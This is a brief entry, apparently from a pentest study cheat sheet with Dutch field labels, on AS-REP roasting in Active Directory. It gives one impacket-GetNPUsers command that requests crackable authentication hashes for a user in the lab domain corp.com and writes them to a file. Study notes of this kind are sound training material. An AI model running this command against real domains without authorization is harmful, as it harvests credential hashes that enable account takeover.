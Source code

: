 # 23. AD authentication — Entry 16

## Categorie

ASP-REP

## Commando

```
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```

## Omschrijving

```
Use the GetNPUsers to perform AS-REP roasting
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

